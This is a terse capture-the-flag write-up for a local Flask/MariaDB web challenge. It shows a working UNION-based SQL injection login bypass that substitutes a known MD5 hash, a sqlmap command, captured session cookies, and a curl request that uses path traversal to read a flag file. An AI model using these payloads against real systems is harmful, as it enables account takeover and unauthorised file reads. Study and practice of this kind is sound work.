 # orbital

**SOLVED**

`./build-docker.sh`

Dockerfile -> mariadb, flask, jwt

```dockerfile
# Dockerfile
COPY flag.txt /signal_sleuth_firmware
```

```py
user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)
```

```sql
" UNION SELECT username, 'password' FROM users WHERE username="admin

SELECT username, password FROM users WHERE username = "" UNION SELECT username, 'password' AS password FROM users WHERE username="admin"
```

```sh
python3 /opt/sqlmap/sqlmap.py -u 'http://0.0.0.0:1337/api/login' --level 5 --risk 3 -f --banner --ignore-code 401 --dbms='mysql'
```

password
5f4dcc3b5aa765d61d8327deb882cf99

```sql
" UNION SELECT username, '5f4dcc3b5aa765d61d8327deb882cf99' AS password FROM users WHERE username="admin
```

eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNams0TmpVd2ZRLjlpRUQ5b1JWa0NsbUR6UnRMbHhMRGkzbnlxZE82MEtBcVVfcWctRThEMjAifQ.ZBe7-g.hb_Nu6raq5V-1Jz2jqis39i6eCg

```sh
# eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNams0TnpVMGZRLmNVeHFNT2VVbmlteHUydHZBbWQ4MVdYN0xaZUF1OWh2SWFySkh4dmExMHMifQ.ZBe8Yg.JgjCEky4dnIhvZ7TOYX4aVPoaQM

curl 'http://localhost:1337/api/export' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNams0TnpVMGZRLmNVeHFNT2VVbmlteHUydHZBbWQ4MVdYN0xaZUF1OWh2SWFySkh4dmExMHMifQ.ZBe8Yg.JgjCEky4dnIhvZ7TOYX4aVPoaQM' \
  --data '{
    "name":"../signal_sleuth_firmware/flag.txt"
  }'
```